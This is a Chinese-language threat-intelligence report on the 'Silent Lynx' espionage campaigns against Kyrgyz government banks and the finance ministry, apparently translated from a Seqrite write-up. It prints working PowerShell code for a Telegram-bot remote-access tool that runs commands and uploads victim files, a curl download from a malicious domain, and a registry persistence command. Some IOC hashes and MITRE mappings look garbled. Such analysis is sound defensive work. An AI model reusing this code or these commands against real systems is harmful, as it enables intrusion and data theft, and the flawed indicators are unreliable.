









# 简介

	最近遥测发现一批东欧地区的样本，同时 Seqrite 实验室的高级持续威胁团队（APT-Team）最近披露了一个新威胁组织发起的两次新活动，将其命名为 “沉默山猫”（Silent Lynx）。该威胁组织此前曾针对东欧和中亚地区参与经济决策的政府智囊团以及银行业机构发动攻击。此次活动的目标指向中亚经济特别计划（SPECA）的参与国之一 —— 吉尔吉斯斯坦。在此次攻击中，威胁组织发送了以联合国相关主题为诱饵的恶意邮件，目标是吉尔吉斯共和国国家银行的政府机构；而第二次活动则将矛头指向了吉尔吉斯斯坦财政部。

	在本博客中，我们将深入探讨在分析过程中遇到的这些活动的技术细节。我们将研究此次攻击活动的各个阶段，感染始于一封带有 RAR 附件的网络钓鱼邮件，附件中包含一个恶意 ISO 文件、一个良性诱饵文档以及一个恶意 C++ 有效载荷。该有效载荷包含经过编码的嵌入式 PowerShell 脚本，可作为入侵受害者计算机的远程访问工具。在第二次活动中，网络钓鱼邮件附带了一个受密码保护的 RAR 文件，其中包含一个诱饵文档和一个恶意 Golang 植入程序。我们还将审视整个活动背后的基础设施。

## 主要目标

* 大使馆
* 律师事务所
* 政府银行
* 政府智囊团

## 受影响的行业

政府银行

## 地理重点区域

吉尔吉斯斯坦、土库曼斯坦


## 攻击链


# 活动一


| 文件类型 | 文件名                                                                    | 说明                                              |
| ---------- | --------------------------------------------------------------------------- | --------------------------------------------------- |
| RAR      | 20241228140656.rar                                                        | 包含恶意文件的压缩包                              |
| PDF      | 2024 - 00178nv Note Verbale SPECA WG\_2024                             | 诱饵文档                                          |
| EXE      | 20241228140656.iso                                                        | 恶意 ISO 文件，包含恶意可执行文件和诱饵文档       |
| EXE      | Xerox\_Scan17510875802718752175.exe                                    | 恶意 C++ 可执行文件，用于启动恶意 PowerShell 进程 |
| 其他信息 | PowerShell、Telegram Bot、south korea、south\_africa、PasteBin 1010 等 | 涉及恶意脚本执行、通信及相关信息                  |

### 初步调查结果


	2024 年 12 月 27 日，团队发现了一封针对吉尔吉斯共和国国家银行一位官员的恶意 Outlook 邮件。该邮件包含一个名为 20241228_140656.rar 的 RAR 压缩附件。在检查这个 RAR 文件时，我们发现了一个名为 20241228_140656.iso 的恶意 ISO 文件。这个 ISO 文件包含一个名为 Xerox_Scan17510875802718752175.exe 的恶意可执行文件，它会启动一个 PowerShell 进程。恶意 PowerShell 进程的参数以 Base64 编码形式嵌入在 C++ 可执行文件中。此外，该 ISO 文件还释放出一个名为 2024 - 00178nv Note Verbale_SPECA WG_2024 的诱饵文档。次日，其他威胁研究人员也发现了同样的文件。


### 恶意电子邮件分析

	查看这封恶意 Outlook 邮件后，我们明显发现威胁行为者使用了吉尔吉斯国家银行一名员工被攻陷的电子邮件账户。他们利用这个账户发送恶意 RAR 文件，并附上一条引人注意的消息，称该邮件本应发送给财政部，但却被他们收到了。现在，让我们来看看恶意 ISO 文件释放的诱饵 PDF 文档。


### 诱饵文档分析

	提取 ISO 文件后，我们识别出两个文件：一个恶意 C++ 可执行文件和一个诱饵文件。诱饵文件是一份参加 2024 年 4 月 3 日在乌兹别克斯坦撒马尔罕举行的中亚经济特别计划（SPECA）贸易工作组第十九届会议的邀请函。该文档模仿了联合国亚洲及太平洋经济社会委员会（ESCAP）的正式通信，利用 “利用数字化推动可持续供应链” 这一主题，使其看起来可信且具有相关性。由于吉尔吉斯斯坦是 SPECA 成员国之一，这种策略降低了人们的怀疑。


# 活动二

| 文件类型 | 文件名                                                               | 说明                                               |
| ---------- | ---------------------------------------------------------------------- | ---------------------------------------------------- |
| RAR      | npka3 N9950 - 2 - o npemvpoBaH.rar                                   | 包含恶意文件的压缩包，受密码保护                   |
| PDF      | Приказ №950 - 2 - ГП о премировании            | 诱饵文档，看似是吉尔吉斯共和国财政部发布的官方文件 |
| EXE      | Приложение №14 - 214 - 14 - 12 - 5 - 15docx               | 恶意 Golang 可执行文件                             |
| 其他信息 | 185.122.171.22:8082、Google Drive、[pweobmxdlboi.com](https://pweobmxdlboi.com/)、document.hometowncity.cloud、[mailboxdownload.com](https://mailboxdownload.com/)等 | 涉及服务器地址、云存储及恶意域名信息               |

### 恶意电子邮件分析

查看第二次活动中的恶意 Outlook 邮件，我们发现威胁行为者使用了与第一次活动完全相同的被攻陷的电子邮件账户。这次，他们发送了一个受密码保护的 RAR 文件，并附上一条以员工奖金为诱饵的紧急消息，目标是吉尔吉斯共和国财政部的员工。现在，让我们来看看从 RAR 文件中提取出的诱饵 PDF 文档。




### 诱饵文档分析

提取恶意 RAR 文件后，我们发现了两个文件：一个名为Приложение №14 - 214 - 14 - 12 - 5 - 15docx 的恶意 Golang 可执行文件和一个名为Приказ №950 - 2 - ГП о премировании的诱饵 Word 文档。


诱饵文档看似是吉尔吉斯共和国财政部发布的官方命令，详细说明了员工奖金的分配情况。它包含了多名员工的姓名以及命令发布日期 2025 年 1 月 8 日，使这个诱饵看起来既及时又相关。为了增强其合法性并减少怀疑，文档末尾还列出了一位政府官员的姓名。



# 技术分析

## 活动一

**第一阶段 —— 恶意 ISO 文件**：RAR 文件包含一个名为 20241228_140656.iso 的恶意 ISO 文件。提取该 ISO 文件后，我们发现了一个诱饵 PDF 文档和一个恶意 C++ 二进制文件，后者充当加载器。接下来，我们将分析这个 C++ 二进制文件。


**第二阶段 —— 恶意 C++ 加载器**：在直接进行分析之前，我们可以确定该样本未被打包，是一个 C++ 二进制文件。



分析后我们发现，恶意 C++ 可执行文件中存在一大段 Base64 编码的内容，并且有一个 PowerShell 命令，该命令使用 -ExecutionPolicy Bypass 标志运行编码脚本，从而实现无限制的脚本执行。




最后，我们可以看到，通过 CreateProcess API 创建了一个 PowerShell 进程，用于执行编码后的内容块。在下一部分，我们将检查由这个加载器执行的 PowerShell 内容块的具体内容。




**第三阶段 —— 恶意 PowerShell 脚本**：解码 Base64 编码的脚本后，我们发现威胁行为者利用 Telegram Bot 来执行命令和进行数据窃取。该脚本包含两个有趣的函数，即 Invoke - BotCmd 和 Invoke - BotDownload。让我们来看看这些函数的工作原理。

```shell
$Token = "789858392:AAF5FPb]1j1PQfqCGnx - zNdw2R5tF_Xxte"
$URL = "https://api.telegram.org/bot{0}" -f $Token
$lastID = 123
$sleepTime = 2
$sidentifier = -join (48..57) | Get - Random -Count 5 | % { [char] $_ }
```

Invoke - BotCmd 函数主要用于执行从威胁行为者处接收的系统命令，并通过 Telegram Bot API 将执行命令的输出发送回用户。它将命令作为输入，使用 Invoke - Expression 运行该命令，并捕获输出或任何错误。结果会用一个唯一标识符进行格式化后发送回用户。如果输出超过 Telegram 的 4095 字符限制，它会被分割成多个块，并通过多条消息发送。对于较短的输出，则直接发送消息。因此，这个函数实现了通过 Telegram API 与受害者计算机进行远程命令执行和响应传递的功能。

```shell
function Invoke - BotCmd {
    param (
        $command
    )
    $result = Invoke - Expression ($command)
    catch { $result = $Error[0].Exception }
    $res = "[{0}]%e%A" -f $sidentifier
    $result | ForEach - Object { $res += - [string] $_ + "xD8A" }
    if ($res -eq "") { $lastID = $updateid; continue }
    if ($res.Length -gt 4095) {
        for ($i = 0; $i -lt $res.Length / 4095; $i++) {
            $begin = $i * 4095
            $send = $begin + 4094
            if ($send -gt $res.Length) {
                $send = $res.Length
            }
            $data = "chat_id={0}&text={1}" -f $from, $res[$begin..$send]
            $URL = "{0}/sendMessage?{1}" -f $URL, $data
            Invoke - WebRequest -Uri $URL > $null
        }
    } else {
        $data = "chat_id={0}&text={1}" -f $from, $res
        $URL = "{0}/sendMessage?{1}" -f $URL, $data
        Invoke - WebRequest -Uri $URL > $null
    }
}
```

Invoke - BotDownload 函数主要用于将受害者系统中的文件上传到由威胁行为者控制的 Telegram 聊天窗口，实现数据窃取。它根据威胁行为者的请求，从指定路径读取文件，准备必要的元数据和内容头，并将文件作为多部分表单数据 POST 请求发送到 Telegram API。因此，这个函数旨在将受害者计算机上的数据窃取到威胁行为者的 Telegram 聊天窗口中。

```shell
function Invoke - BotDownload {
    param (
        $FilePath
    )
    Add - type -AssemblyName System.Net.Http
    $FieldName = 'document'
    $httpclientHandler = New - Object System.Net.Http.HttpclientHandler
    $httpclient = New - Object System.Net.Http.Httpclient($httpclientHandler)
    $Filestream = [System.IO.FileStream]::new($FilePath, [System.IO.FileMode]::Open)
    $FileHeader = [System.Net.Http.Headers.ContentDispositionHeaderValue]::new("form - data")
    $FileHeader.Name = $FieldName
    $FileHeader.FileName = (Split - Path $FilePath -leaf)
    $FileContent = [System.Net.Http.StreamContent]::new($Filestream)
    $FileContent.Headers.ContentDisposition = $FileHeader
    $FileContent.Headers.ContentType = [System.Web.MimeMapping]::GetMimeMapping($FilePath)
    $multipartContent = [System.Net.Http.MultipartFormDataContent]::new()
    $multipartContent.Add($FileContent)
    $httpClient.PostAsync("$URL/sendDocument?chat_id={0}" -f $from, $multipartContent) > $null
}
```

脚本的其余部分构成了机器人的核心操作逻辑，它在一个持续循环中运行，以监控和处理来自威胁行为者的新消息。它使用 getUpdates API 端点获取消息，并根据消息内容采取行动。像 /sleep 这样的命令可以调整机器人的休眠间隔，/cmd 命令允许它使用 Invoke - BotCmd 函数执行系统命令，/download 命令则通过 Invoke - BotDownload 函数触发从受害者计算机上传文件的操作。


```shell
while ($true) {
    try {
        $message = Invoke - RestMethod -Method Get -Uri ($URL + '/getUpdates?offset=' + ($lastID + 1)) -ErrorAction Stop
        if ($message.result) {
            foreach ($update in $message.result) {
                $updateid = $update.update_id
                $from = $update.message.from.id
                $command = $update.message.text
                if ($command.Substring(0, 6) -eq "/sleep") {
                    $sleepTime = [int]$command.Substring(7)
                } elseif ($command.Substring(0, 4) -eq "/cmd") {
                    Invoke - BotCmd -command $command.Substring(5)
                } elseif ($command.Substring(0, 9) -eq "/download") {
                    Invoke - BotDownload -FilePath $command.Substring(10)
                } else {
                    # 处理其他命令或消息
                }
                $lastID = $updateid
            }
        }
        Start - Sleep -Seconds (Get - Random -Minimum 1 -Maximum 8)
    } catch {
        Start - Sleep -Seconds (Get - Random -Minimum 1 -Maximum 8)
        continue
    }
}
```

对于带有特定标识符的自定义命令，机器人在执行请求的操作之前会验证标识符。该脚本通过更新最后看到的消息 ID 来确保每条消息只被处理一次，并实现了错误处理功能，以便在 API 调用失败时进行重试，同时会随机暂停一段时间，以避免被检测到或因异常网络行为而导致过早被发现或出现其他异常情况。这个循环使得机器人能够执行诸如运行命令、窃取数据以及与威胁行为者保持持续通信等任务。

现在，我们已经完成了对 C++ 和 PowerShell 加载器的分析，接下来将研究基础设施、其他活动以及威胁行为者的其他活动。


## 活动二

**第一阶段 —— 恶意 Golang 反向 Shell**：提取恶意 RAR 文件后，我们可以看到里面只有两个文件，其中一个是诱饵文档，另一个是 Golang 可执行文件。




查看该二进制文件内部，我们发现它是一个用 Golang 编写的反向 Shell，它使用 net\_dial 等包连接到命令控制服务器（C2）。如果连接 C2 失败，它会休眠 0.5 秒，然后运行各种命令。





# 基础设施追踪与溯源

在上一部分中，我们看到威胁行为者利用 Telegram Bot 在受害者系统上执行操作以及进行下载等任务。幸运的是，我们在 PowerShell 脚本中发现了硬编码的 Bot 令牌，从中获取了一些有趣的信息。这就是在此次活动中被用于将内容转发给威胁行为者的 Telegram 机器人。


我们还可以看到威胁行为者在目标计算机上执行了一些常见命令，如 whoami、ipconfig 等


我们还发现了一个有趣的情况，威胁行为者（TA）从一个网络服务器下载恶意有效载荷，并在被攻陷的系统上建立持久化机制。通过命令 “cmd /c curl -o c:\users\public\gservice.exe hxxps://[pweobmxdlboi.com/147.exe](https://pweobmxdlboi.com/147.exe)” ，威胁行为者从远程服务器下载了一个恶意可执行文件，并将其保存为 “c:\users\public” 目录下的 “gservice.exe”。


为确保持久化，威胁行为者执行了一个注册表修改命令：“REG ADD HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v WinUpTask /t REG_SZ /d c:\users\public\gservice.exe/f”，该命令将可执行文件添加到 Windows 的 “运行” 键中，这样每当用户登录时，它就会自动启动。随后，攻击者使用 “REG query” 命令来验证修改，并通过消息 “Операция успешно завершена”（“操作已成功完成”）确认持久化机制已成功建立。


据信，其中一名受感染的受害者与土库曼斯坦和吉尔吉斯斯坦之间的外交行动密切相关。存在敏感文件，如 “Turkmenistanyn Gyrgyz Respublikasyndaky Ilcihanasynyn meyilnamasy.docx”，这表明攻击者以该受害者为目标，收集有关外交计划和关系的情报，这意味着此次活动的主要目标之一是进行间谍活动，而且目标不仅限于银行，还包括其他政府机构。



在追踪同一威胁行为者（实际上是同一操作员，使用相同的 Telegram 用户）发起的其他活动时，我们发现该威胁行为者还使用了其他基于 Telegram 的机器人，对同一地理位置的不同受害者发动攻击。



此外，我们发现威胁行为者一直在使用一个名为 resocks 的红队开源工具，该工具被托管在他们的基础设施中。


威胁行为者托管恶意植入程序的域名如下：

|                                           |
| ------------------------------------------- |
| hxxps:[//]pweobmxdlboi[.]com              |
| hxxps:[//]document[.]hometowncity[.]cloud |
| hxxps:[//]mailboxdownload[.]com           |

进一步追踪发现，威胁行为者还利用 Google Drive 将更多有效载荷下载到受害者系统中，目前依赖于 C++、MSIL 植入程序。这些植入程序要么嵌入了恶意 PowerShell 脚本，要么从诸如 Pastebin 之类的文本共享服务下载，并且在最近的活动中依赖 Telegram 进行数据渗出和命令与控制服务 。


# 归因分析


在描述一个威胁行为者或组织时，归因分析是一项至关重要的指标。它涉及分析和关联多个领域，包括战术、技术和程序（TTPs）、代码相似性和重用情况、威胁行为者的动机，有时还包括操作失误。

在我们对 “沉默山猫”（Silent Lynx）的持续追踪过程中，发现它与一个总部位于哈萨克斯坦的威胁行为者 / 组织（被思科 Talos 团队识别为 YoroTrooper）存在显著的相似之处和重叠部分。让我们来探讨一下 “沉默山猫” 和 YoroTrooper 之间的一些关键重叠点。

* **工具库**：思科 Talos 的研究人员观察到，YoroTrooper 经常修改和更换其工具集，以此创建一种伪反检测机制。在 YoroTrooper 最近的行动中，对基于 PowerShell 的工具存在严重依赖。同样，“沉默山猫” 也表现出对 PowerShell 工具的高度依赖，并且在两组的代码中观察到了重叠部分。
* **动机**：“沉默山猫” 和 YoroTrooper 有着相似的动机，主要都是针对吉尔吉斯斯坦及其邻国的政府机构进行间谍活动。

除了这些例子之外，还有其他有力的相似之处进一步证实了这两个威胁组织之间的联系。我们有中等程度的把握认为，“沉默山猫” 是一个起源于哈萨克斯坦的威胁行为者，很可能与 YoroTrooper 共享资源，因此可将其定位为一个以哈萨克斯坦为导向的威胁组织。


# 结论

“沉默山猫” 的攻击活动展示了一种复杂的多阶段攻击策略，使用了 ISO 文件、C++ 加载器、PowerShell 脚本和 Golang 植入程序。他们对 Telegram 机器人的依赖，用于命令和控制，再加上诱饵文档以及针对特定区域的攻击，突出了他们在中亚和 SPECA 成员国进行间谍活动的重点。“沉默山猫” 与 YoroTrooper 的重叠表明了资源共享，进一步证实了其作为一个来自哈萨克斯坦的威胁组织的归因。


### 入侵检测指标（IOCs）

| 文件类型   | 文件名                                                 | SHA-256                                                          |
| ------------ | -------------------------------------------------------- | ------------------------------------------------------------------ |
| EXE        | 147.exe                                                | efb700681713cd50a2addd1fea6b7ee80c084467d3e87668688b9f06642062ba |
| EXE        | Xerox\_Scan17510875802718752175.exe                 | e6f76a73180b4f2947764f4de57b52d037b482ecela88dab9d3290e76be8c098 |
| EXE        | 14789.exe                                              | 3560660162f2268d52b69382c78192667a7eee5796d77418a8609b2f1709f834 |
| EXE        | resocks.exe                                            | 297d1afa309cdf0c84f04994ffd59eele1175377c1a0a561eb25869909812c9c |
| ISO        | 20241228\_140656.iso                                | c045344b23fc245f35a0ff4a6d6fa744d580cde45c8cd0849153dee7dce1d80c |
| EXE        | Приложение №14 - 214 - 14 - 12 - 5 - 15docx | 1b76931775aa4de29df27a9de764b22f17ca117d6e5ae184f4ef617c970fc007 |
| EXE        | sokcs.exe                                              | 66294c9925ad454d5640f4fe753da9e7d6742f60b093ed97be88fcdd47b04445 |
| EXE        | udadd.exe                                              | 99c6017c8658faf678f1b171c8eb5d5fa7e7d08e0a0901b984a8e3e1fab565cd |
| 域名 / URL | hxxps://[pweobmxdlboi.com](https://pweobmxdlboi.com/)                                               |                                                                  |
| 域名 / URL | hxxps://document.hometowncity.cloud                    |                                                                  |
| 域名 / URL | hxxps://[mailboxdownload.com](https://mailboxdownload.com/)                                               |                                                                  |
| 域名 / URL | hxxps://[api.telegram.org/bot8171872935:AAHLoudjpHz1bxA26bV5wPuOFL3LOHE160k](https://api.telegram.org/bot8171872935:AAHLoudjpHz1bxA26bV5wPuOFL3LOHE160k)                                               |                                                                  |
| 域名 / URL | hxxps://[api.telegram.org/bot7898508392:AAF5FPbJ1jlPQfqCIGnx](https://api.telegram.org/bot7898508392:AAF5FPbJ1jlPQfqCIGnx) - zNdw2R5tF\_Xxt0                          |                                                                  |

### MITRE ATT&CK 框架相关信息

| 策略     | 技术 ID 及名称                                    |
| ---------- | --------------------------------------------------- |
| 侦察     | T1589.002：收集受害者身份信息：电子邮件地址       |
| 侦察     | T1204.002：（文档未明确此技术具体内容）           |
| 初始访问 | T1078.002：用户执行：恶意文件（有效账户：域账户） |
| 执行     | T1059.001：命令和脚本解释器：PowerShell           |
| 持久化   | T1547.001：注册表运行键 / 启动文件夹              |
| 凭证访问 | T1056.001：输入捕获：键盘记录                     |
| 凭证访问 | T1552.001：未受保护的凭证：文件中的凭证           |
| 发现     | T1087：账户发现                                   |
| 发现     | T1083：文件和目录发现                             |
| 发现     | T1046：网络服务发现                               |
| 发现     | T1012：查询注册表                                 |
| 发现     | T1018：远程系统发现                               |
| 发现     | T1016：系统网络配置发现                           |
| 发现     | T1007：系统服务发现                               |
| 收集     | T1560.001：归档收集的数据：通过实用工具进行归档   |
| 渗出     | T1567.002：渗出到云存储                           |